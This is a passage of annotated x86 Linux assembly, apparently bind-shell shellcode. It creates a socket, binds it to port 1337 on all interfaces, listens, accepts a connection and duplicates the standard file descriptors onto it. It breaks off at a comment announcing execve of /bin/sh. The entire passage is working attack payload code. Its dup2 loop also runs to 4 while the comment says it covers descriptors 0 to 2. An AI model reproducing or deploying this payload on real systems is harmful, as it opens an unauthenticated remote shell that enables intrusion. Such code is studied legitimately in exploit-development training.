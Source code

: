 ```nasm
    push ebx            ; SOCK_STREAM = 1  
                        ; Needed for bind(), can be used here to save a few bytes  
    push byte 0x2       ; PF_INET = 2  
    mov ecx, esp        ; ECX points to args  
    int 0x80  
  
    xchg esi, eax       ; sockfd is now stored in esi  
  
    ;  
    ; bind(sockfd, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("0.0.0.0")}, 16)  
    ;  
    push edx            ; sockaddr.sin_addr.s_addr: INADDR_ANY = 0  
    inc ebx             ; EBX = 0x2 | #define SYS_BIND 2  
    push word 0x3905    ; sockaddr.sin_port   : PORT = 1337 (big endian)  
    push bx             ; sockaddr.sin_family : AF_INET = 2  
    mov ecx, esp        ; ECX holds pointer to struct sockaddr  
  
    push byte 0x10      ; sizeof(sockaddr)  
    push ecx            ; pointer to sockaddr  
    push esi            ; sockfd  
    mov ecx, esp        ; ECX points to args  
    push byte 0x66      ; socketcall()  
    pop eax  
    int 0x80  
  
    ;  
    ; listen(sockfd, 2)  
    ;  
    push ebx            ; queueLimit = 2  
    push esi            ; sockfd stored in esi  
    mov ecx, esp        ; ECX points to args  
    push byte 0x66      ; socketcall()  
    pop eax   
    inc ebx  
    inc ebx             ; #define SYS_LISTEN 4  
    int 0x80  
      
    ;  
    ; accept(int sockfd, NULL, NULL);  
    ; From man 2 accept: When addr is NULL, nothing is filled in;   
    ; in this case, addrlen is not used, and should also be NULL.  
    ;  
    push edx            ; Push NULL  
    push edx            ; Push NULL  
    push esi            ; Push sockfd  
    mov ecx, esp        ; ECX points to args  
    inc ebx             ; #define SYS_ACCEPT 5  
    mov al, 0x66        ; socketcall()  
    int 0x80  
      
    ;  
    ; dup2(ebx, {0,1,2})  
    ;  
    xchg ebx, eax       ; EAX = 0x5, EBX = new_sockfd  
    xor ecx, ecx        ; ECX = 0  
lbl:  
    mov al, 0x3f        ; dup2()  
    int 0x80  
    inc ecx             ; Iterate over {0,1,2}  
    cmp cl, 0x4         ; Are we done?  
    jne lbl             ; Nope  
      
    ; execve("/bin//sh", NULL, NULL)  
```